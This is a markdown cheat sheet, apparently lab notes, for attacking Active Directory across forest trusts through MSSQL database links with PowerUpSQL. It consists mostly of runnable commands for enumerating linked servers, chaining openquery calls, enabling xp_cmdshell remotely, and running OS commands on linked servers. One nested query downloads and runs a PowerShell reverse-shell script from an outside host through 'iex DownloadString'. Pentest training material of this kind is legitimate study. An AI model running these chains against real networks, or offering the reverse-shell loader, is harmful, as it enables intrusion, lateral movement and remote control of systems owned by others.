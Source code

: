 # Cross Forest Attacks - MSSQL Servers

- [Cross Forest Attacks - MSSQL Servers](#cross-forest-attacks---mssql-servers)
  - [MSSQL Servers](#mssql-servers)
  - [Enumeration](#enumeration)
  - [Database links](#database-links)
  - [Searching Database Links](#searching-database-links)
  - [Executing Commands](#executing-commands)
  - [Abusing Database Links](#abusing-database-links)

---

## MSSQL Servers

MS SQL servers are generally deployed in plenty in a Windows domain. MSSQL Servers provide very good options for lateral movement as they **allow mapping domain users to database roles** and thus become part of AD trusts.

Let's see one scenario where we can abuse SQL servers trust and database links to move across forest trust boundaries. For MSSQL and PowerShell hackery, lets use **PowerUpSQL**:

- https://github.com/NetSPI/PowerUpSQL

```
. C:\AD\Tools\PowerUpSQL-master\PowerUpSQL.ps1
```

<br/>

---

## Enumeration

<br/>

To discover MSSQL instances:

```
Get-SQLInstanceDomain
```

<br/>

To check accessibility:

```
Get-SQLConnectionTestThreaded
```

```
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose
```

<br/>

Gather information about the MSSQL instances:

```
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
```

<br/>

---

## Database links

A database link allows a SQL Server to access external data sources like other SQL Servers and OLE DB data sources. 

In case of database links between SQL servers, that is, linked SQL servers it is possible to execute stored procedures.

Database links work even across forest trusts.

<br/>

---

## Searching Database Links

Look for links to remote servers:

```
Get-SQLServerLink -Instance us-mssql.us.techcorp.local -Verbose
```

Note we can also enuemrate linked servers manually:

```
select * from master..sysservers
```

<br/>

`Openquery` function can be used to run queries on a linked database:

```
select * from openquery("192.168.23.25",'select * from master..sysservers')
```

`Openquery` queries can be chained to access links within links (nested links)

```
select * from openquery("192.168.23.25 ",'select * from openquery("db-sqlsrv",''select @@version as version'')')
```

<br/>

---

## Executing Commands

On the target server, either `xp_cmdshell` should be already enabled; or if `rpcout` is enabled (**disabled by default**), `xp_cmdshell` can be enabled using:

```
EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT "db-sqlsrv"
```

<br/>

From the initial SQL server, OS commands can be executed using nested link queries:

```
select * from openquery("192.168.23.25",'select * from openquery("db-sqlsrv",''select @@version as version; exec master..xp_cmdshell "powershell iex (New-Object Net.WebClient).DownloadString(''''http://192.168.100.64/Invoke-PowerShellTcp.ps1'''')"'')')
```

<br/>

---

## Abusing Database Links

Crawling links to remote servers:

```
Get-SQLServerLinkCrawl -Instance us-mssql.us.techcorp.local
```

<br/>

Abusing links to remote servers (tries to use `xp_cmdshell` on every link of the chain):

```
Get-SQLServerLinkCrawl -Instance us-mssql.us.techcorp.local -Query 'exec master..xp_cmdshell ''whoami'''
```

---